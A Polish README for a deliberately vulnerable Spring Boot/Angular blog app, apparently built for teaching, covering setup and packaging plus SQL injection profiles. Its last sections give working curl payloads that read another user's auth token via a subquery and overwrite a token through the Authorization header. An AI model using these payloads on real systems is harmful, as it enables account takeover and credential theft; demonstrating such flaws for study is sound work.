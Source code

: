 # Project Pass

## Jak uruchomić?

Aplikacja składa się z dwóch modułów - `application/server` zawierający backend w `Spring Boot` oraz `application/frontend` zawierający aplikację frontendową opartą o `Angular`.

Projekt skonstruowany jest w taki sposób, że `application/frontend` jest zależnością do `application/server`. Zatem budując serwer, najpierw musi zostać zbudowany frontend. Wszystko jest już ze sobą połączone.


1. Aby uruchomić aplikację wystarczy użyć taska:
    ```
    ./gradlew bootRun
    ```
    
    > W przypadku problemów z cache'owaniem plików frontendowych, można użyć dodatkowo taska `clean`:
    > ```
    > ./gradlew clean bootRun
    > ```
    
    Po wydaniu polecenia w konsoli widać:
    
    ```
    2021-05-03 16:32:50.045  INFO 41222 --- [           main] o.s.s.concurrent.ThreadPoolTaskExecutor  : Initializing ExecutorService 'applicationTaskExecutor'
    2021-05-03 16:32:50.096  INFO 41222 --- [           main] o.s.b.a.w.s.WelcomePageHandlerMapping    : Adding welcome page: class path resource [static/index.html]
    2021-05-03 16:32:50.240  INFO 41222 --- [           main] o.s.s.web.DefaultSecurityFilterChain     : Will secure any request with [org.springframework.security.web.context.request.async.WebAsyncManagerIntegrationFilter@71a7cf7c, org.springframework.security.web.context.SecurityContextPersistenceFilter@447630c4, org.springframework.security.web.header.HeaderWriterFilter@951e911, org.springframework.security.web.authentication.logout.LogoutFilter@62ff14cd, pl.kul.blog.infrastructure.authentication.filters.pwd.UsernameAndPasswordAuthenticationFilter@7f49df25, pl.kul.blog.infrastructure.authentication.filters.token.TokenAuthenticationFilter@5b29d699, org.springframework.security.web.savedrequest.RequestCacheAwareFilter@4c8afba, org.springframework.security.web.servletapi.SecurityContextHolderAwareRequestFilter@5c65fa69, org.springframework.security.web.authentication.AnonymousAuthenticationFilter@5a5a973c, org.springframework.security.web.session.SessionManagementFilter@7022fb5c, org.springframework.security.web.access.ExceptionTranslationFilter@4d6027be, org.springframework.security.web.access.intercept.FilterSecurityInterceptor@3d605657]
    2021-05-03 16:32:50.274  INFO 41222 --- [           main] o.s.b.w.embedded.tomcat.TomcatWebServer  : Tomcat started on port(s): 8080 (http) with context path ''
    2021-05-03 16:32:50.281  INFO 41222 --- [           main] pl.kul.blog.BlogApplication              : Started BlogApplication in 2.51 seconds (JVM running for 2.748)
    <============-> 93% EXECUTING [43s]
    > :application:server:bootRun
    ```
    Zostaje uruchomiony serwer HTTP, który nasłuchuje na porcie 8080.

2. Następnie należy wejść na stronę http://localhost:8080/ i założyć nowego użytkownika
   
    > Zarówno zakładanie użytkownika jak i logowanie zajmuje kilka sekund - to celowy zabieg `Spring`'a
3. Volia!

## Budowanie pliku wykonywalnego

Został użyty plugin `org.beryx.runtime`, który definiuje dodatkowy task o nazwie `jpackage`. Task ten wykorzystuje pod spodem [narzędzie dostępne w JDK (>= 15) `jpackage`](https://openjdk.java.net/jeps/392). Narzędzie umożliwia utworzenie kopii maszyny wirutalnej (klient uruchamiający aplikację nie musi mieć swojego własnego `JRE`) i załącza odpowiednie skrypty uruchamiające (per platforma).

Aby zbudować plik wykonywalny, należy użyć polecenia:

```
./gradlew jpackage
```

Wówczas w katalogu `application/server/build/jpackage` powstanie katalog, który zawiera plik `.exe` oraz wszystkie wymagane zależności. Cały ten katalog można spakować i traktować jako aplikację w wersji `portable`.

## Znane problemy/rzeczy do zrobienia

* Najwyższy priorytet
  * [ ] Diagramy prezentujące flow uwierzytelniania użytkownika
* Nice to have
  * [ ] Po odświeżeniu strony/zamknięciu karty użytkownik musi się zalogować. Powodem jest przechowywanie tokena w pamęci, zamiast np. `localStorage`
  * [ ] Brak obsługi błędów połączenia HTTP. Jeżeli np. podczas logowania (`POST /authentication/signin`) poleci błąd 4xx, wówczas na frontendzie "nic nie widać"
* Done
    * Najwyższy priorytet
        * [x] Brak możliwości dodawania nowych postów i komentarzy (trzeba zaimplementować)
    * Nice to have
        * [x] Backend używa bazy danych H2 uruchamianej w pamięci - oznacza to, że po każdym restarcie serwer ma czystą bazę. Trzeba dodać konfigurację umożliwiającą zmianę trybu działania H2 na opartą o plik + możliwość konfiguracji ścieżki.

## SQL Injection

W aplikacji jest zestaw bean'ów odpowiadających za zapis do bazy. Te, które nosza nazwę `Vulnerable*Repository` są podatne na atak `SQL Injection`. Aby uruchomić aplikację z zestawem bean'ów wrażliwych na ten atak, należy aktywować konkretne profile:

* `token-auth-check-vulnerable-to-sql-injection`
* `comments-vulnerable-to-sql-injection`

> Widok zarządzający aplikacją umożliwia włączenie w/w profili.

Jeżeli konkretny profil dotyczący konkretnej funkcjonalności jest aktywny, wówczas ładowany jest odpowiedni zestaw bean'ów (wszystko zawarte wewnątrz `RepositoriesConfiguration`).

## Wyciągnięcie dowolnej pojedynczej wartości z bazy i zapisanie jej w komentarzu

> Test integracyjny `SqlInjection_exploitAddComment` umożliwia symulację tej podatności

```bash
curl 'http://localhost:8080/api/comments/4a2efc6b-ffd7-4b13-b5cb-9913ac47dd17' \
    -X 'PUT' \
    -H 'Connection: keep-alive' \
    -H 'Accept: application/json' \
    -H 'Authorization: token pxsAnl/LzCqynQTzGZg+vPISd54tOxtHWadre9zdXN2y+aWKrv1Cpk6PBMMahUeHj2AJUs8fSRGJIQczb83Erg==' \
    -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36' \
    -H 'Content-Type: application/json' \
    -H 'Sec-GPC: 1' \
    -H 'Origin: http://localhost:8080' \
    -H 'Sec-Fetch-Site: same-origin' \
    -H 'Sec-Fetch-Mode: cors' \
    -H 'Sec-Fetch-Dest: empty' \
    -H 'Referer: http://localhost:8080/' \
    -H 'Accept-Language: en-US,en;q=0.9' \
    --data-binary '{"addToPostId":"f0e69366-5fb7-42c5-ae77-a371043728d6","content":"'\'' + (select token from user_device where user_account_id = (select id from user_account where username = '\''test'\'')) + '\''"}' \
    --compressed
```

## Aktualizacja tokena dowolnego użytkownika

Ustawienie tokena użytkownikowi `test`:
```
curl 'http://localhost:8080/api/posts' \
    -H 'Connection: keep-alive' \
    -H 'Accept: application/json' \
    -H 'Authorization: token '\''; ;update user_device set token='\''sql-injected'\'' where USER_ACCOUNT_ID = (select id from USER_ACCOUNT where USERNAME = '\''test'\'') -- ' \
    -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36' \
    -H 'Sec-GPC: 1' \
    -H 'Sec-Fetch-Site: same-origin' \
    -H 'Sec-Fetch-Mode: cors' \
    -H 'Sec-Fetch-Dest: empty' \
    -H 'Referer: http://localhost:8080/' \
    -H 'Accept-Language: en-US,en;q=0.9' \
    --compressed
```

Pobranie postów ze zmienionym tokenem:
```
    curl 'http://localhost:8080/api/posts' \
    -H 'Connection: keep-alive' \
    -H 'Accept: application/json' \
    -H 'Authorization: token sql-injected' \
    -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36' \
    -H 'Sec-GPC: 1' \
    -H 'Sec-Fetch-Site: same-origin' \
    -H 'Sec-Fetch-Mode: cors' \
    -H 'Sec-Fetch-Dest: empty' \
    -H 'Referer: http://localhost:8080/' \
    -H 'Accept-Language: en-US,en;q=0.9' \
    --compressed
```
#� �P�r�o�j�e�c�t�P�a�s�s�J�A�V�A�
�
�

